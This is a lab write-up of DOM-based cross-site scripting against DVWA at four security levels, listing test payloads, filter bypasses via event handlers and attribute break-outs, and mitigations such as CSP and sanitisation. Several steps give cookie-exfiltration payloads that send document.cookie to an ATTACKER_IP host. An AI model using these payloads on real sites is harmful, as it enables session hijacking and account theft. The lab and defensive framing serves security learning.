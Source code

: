# 🗂️ Dom_XSS Vulnerability Writeup

📌 Description

DOM-Based Cross-Site Scripting (DOM XSS) occurs when client-side JavaScript processes user input in the Document Object Model (DOM) without proper sanitization, leading to the execution of arbitrary scripts. Unlike Reflected or Stored XSS, the malicious payload never reaches the server; it is executed entirely in the victim’s browser.

## ⚙️ Lab Setup
- **Platform**: DVWA (Damn Vulnerable Web Application)
- **Target Page**: `/vulnerabilities/xss_d/`
- **Tested With**: Firefox, Burp Suite, Kali Linux
- **Security Levels Tested**: Low, Medium, High, Impossible

## 🔓 Low Security Level

### 🛠️ Exploitation Steps

1 Navigate to http://127.0.0.1/DVWA/vulnerabilities/xss_d/
2 Test with simple payload http://127.0.0.1/DVWA/vulnerabilities/xss_d/#<script>alert(1)</script>
* If it works it popup 1 thus one(1) appears on the screen
3 You can use alternative payloads to filter bypass like Event Handlers
*#<img src=x onerror=alert('XSS')>, <svg onload=alert(document.domain)> etc
4 You can replace the alert(1) incase to you want to steal cookies through reverse
* #<img src=x onerror="fetch('http://ATTACKER_IP:9000/?c='+document.cookie)">
* #<script>window.location='http://ATTACKER_IP:1337/?c='+document.cookie
 When victims visit this crafted links, their cookies get exfiltrated to the attackers server since they listen through the respective ports.
------
NB: You can use burpsuite repeater to inject but Sometimes long scripts may not work in Burp Suite since it does not do auto-encoding but browser doe
-------

### ✅ Result

- Successful JavaScript execution in the victim’s browser.
- Payload requires only a crafted URL — no server-side filtering is involved.
- Confirmed ability to steal session tokens (document.cookie)

### 🔍 Weaknesses
- No Sanitization 
- Lack of Content Security Policy(CSP) 

🔐 Mitigations

- Sanitize inputs in client-side before inserting
- Implement Content Security Policy(CSP) to blocl inlinen scripts


## 🟡 Medium Security Level

### 🛠️ Exploitation Steps
1 Observe behavior of the vulnerable page when you visit http://127.0.0.1/DVWA/vulnerabilities/xss_d/ 
*check the dev Tools shows some charactwrs are encoded
2 Basic payload like this <script>alert(1)</script> will not work due to encode
3 Try injecting an HTML element with event handler like this http://127.0.0.1/DVWA/vulnerabilities/xss_d/#"><img src=x onerror=alert(1)>  this will break out of the attribute and execute the JavaScript.
4 Previlage escalation(Weaponization) to steal cookies with this payload
*#"><img src=x onerror="window.location='http://ATTACKER_IP:9000/?c='+document.cookie">
5 When victims click the crafted URL, their browsers send their session cookies to the attacker.

 ✅ Result
- Achieved DOM-based XSS using event handlers and context-breaking payloads.
- Confirmed the possibility of stealing cookies

🔎 Weaknesses
Filters only encode obvious tags like <script> but do not account for:
* Event handlers(onerror, onload etc)
* Breaking out of HTML attributes

### 🛡️ Mitigation Needed
- Apply strong client-side sanitization
- Enforce Content Security

---
NB:<img> tags are invalid in <options> tag so you need to break out of it first thus <select></select>


## 🔴 High Security Level
1 Analze page behavior 
2 Simple payload fails #<script>alert(1)</script> 
3 By bypass by injecting payload that does not rely on <script> but exploit attributes and event handlers like:
* #"><img src=x onerror=alert(1)> this payload closes the exiting attribute and uses image elements, and 'onerror' handler
4 Alternate payloads can be used
* #"><svg onload=alert(document.domain)>
5 Exfiltrate cookies to attacker controlled server with is payload whenever victim clik the link it redirect to the attacker
* #"><img src=x onerror="fetch('http://ATTACKER_IP:9000/?cookie='+document.cookie)">

✅ Result
- Demonstrated real-world impact: cookie theft and session hijacking.
- By breaking out of the attribute context and leveraging event handlers, arbitrary JavaScript execution is achieved.

🔎 Weaknesses
- No Content Security Policy (CSP) prevents inline JavaScript execution.
- It easy to use event handlers to bypass

🔐 Mitigations
- Implement strict input validation using allow-lists instead of blacklists
- Enforce a strong Content Security Policy (CSP) to block inline scripts and limit allowed sources.
- Sanitize inputs

NB: Event Handlers can be use to bypass inthe high level

-------

## 🔴 Impossible Level

1 These payloads may fail and not execute
* #<script>alert(1)</script>
* #"><img src=x onerror=alert(1)>
* #<svg onload=alert(1)>

2 HTML is sanitize before accepted



